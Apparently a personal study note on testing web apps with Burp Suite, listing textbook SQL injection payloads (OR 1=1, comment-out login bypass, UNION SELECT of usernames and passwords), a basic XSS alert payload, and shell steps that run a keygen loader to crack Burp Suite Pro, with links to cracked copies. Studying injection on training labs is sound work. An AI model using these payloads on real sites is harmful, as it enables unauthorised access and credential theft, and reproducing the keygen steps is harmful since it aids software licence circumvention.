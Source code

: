```yaml
---
title: Meow's Testing Tools - Burpsuite
date: 2019-09-17 11:11:11 -0400
categories: [1CyberAttack, CyberAttackTools]
tags: [CyberAttack, CyberAttackTools]
toc: true
image:
---
```


[toc]

---

# Burpsuite

---

test web: `www.dvwa.co.uk`

---

## Testing workflow

![burp-workflow](https://i.imgur.com/IlK1tx3.jpg)


---


## SQL injection


![Screen Shot 2020-11-18 at 12.29.51](https://i.imgur.com/XqX9weI.png)

`UPDATE, INSERT, SELECT, ORDER BY` 

1. retrieve hidden data:
   1. input: Gifts
   2. `http://web/products?category=Gifts`
   3. `SELECT * FROM products WHERE category = 'Gifts' AND released = 1`
   4. input: Gifts'--
   5. `http://web/products?category=Gifts'--`
   6. `SELECT * FROM products WHERE category = 'Gifts'`--' AND released = 1
   7. input: Gifts`'+OR+1=1--`
   8. `http://web/products?category=Gifts'+OR+1=1--`
   9. `SELECT * FROM products WHERE category = 'Gifts' OR 1=1`--' AND released = 1
2. subverting application logic
   1. `GET /web3/login/?id=1&Submit=Submit HTTP/1.1`
   2. `GET /web3/login/?id=1'OR 1=1 #`&Submit=Submit `HTTP/1.1`
   3. `GET /web3/login/?id=1'+OR+1+%3d+1+%23&`Submit=Submit `HTTP/1.1`
   4. input: admin 12345
   5. `SELECT * FROM user WHERE username = 'admin' AND password = '12345'`
   6. input: admin'-- 
   7. `SELECT * FROM user WHERE username = 'admin'`--' AND password = '12345'
3. retrieve data from other database tables
   1. input: Gifts
   2. `SELECT name, description FROM products WHERE category = 'Gifts'`
   3. input: Gifts' UNION SELECT username, password From users--
   4. `SELECT name, description FROM products WHERE category = 'Gifts' UNION SELECT username, password From users`--
4. examining the database
   1. oracle: `SELECT * FROM v$version`
   2. list the table and database: `SELECT * FROM information_schema.tables`
5. blind SQL injection vulnerabilities


detecting SQL injection vulnerabilities: use scanner


[SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

lab:

```
https://abc.net/filter?category=Lifestyle' UNION SELECT NULL,NULL,NULL--  


```


---

## XSS Exploitation

1. execute payload as `<script>alert(“hello”)</script>`


# install burpsuite


[file](https://drive.google.com/drive/folders/1YKAeBIXPeUFW78buqRlJ9Yg1Ln6W2f1R)

```bash
# Install homebrew

rm -rf /Library/Java/JavaVirtualMachines/adoptopenjdk-14.jdk

# Tap homebrew/cask-versions
brew tap homebrew/cask-versions

# install java8:
brew cask install adoptopenjdk8

# Check if java8 is successfully installed or not
/usr/libexec/java_home -verbose

# cd to the file
cd /Applications/Burp\ Suite\ Community\ Edition.app/Contents/java/app

# Window1:
/Library/Java/JavaVirtualMachines/adoptopenjdk-14.jdk/Contents/Home/bin/java -jar burp-loader-keygen-2_1_07.jar

-jar burp-loader-keygen.jar

# add file
-Xbootclasspath/p:burp-loader-keygen-2_1_07.jar

# Window2:
/Library/Java/JavaVirtualMachines/adoptopenjdk-14.jdk/Contents/Home/bin/java -jar burpsuite_pro_v2.1.07.jar

/Library/Java/JavaVirtualMachines/liberica-jdk-8.jdk/Contents/Home/bin/java -jar burpsuite_pro_v1.7.31


# Create a Bash Alias
# If you are missing a .bash_profile
burp2.1()
{
/Library/Java/JavaVirtualMachines/adoptopenjdk-14.jdk/Contents/Home/bin/java -jar /Applications/Burp\ Suite\ Community\ Edition.app/Contents/java/app/burpsuite_pro_v2.1.07.jar
}

# Run
source ~/.bash_profile
# or
source ~/.zshrc

# Now you can type burp2.1 in terminal to open Burp Suite directly
```

[link](https://www.cnblogs.com/shaosks/p/13367761.html)
[link](https://github.com/raystyle/BurpSuite_Pro_v1.7.32)
[link](https://resources.infosecinstitute.com/burpsuite-tutorial/)






.
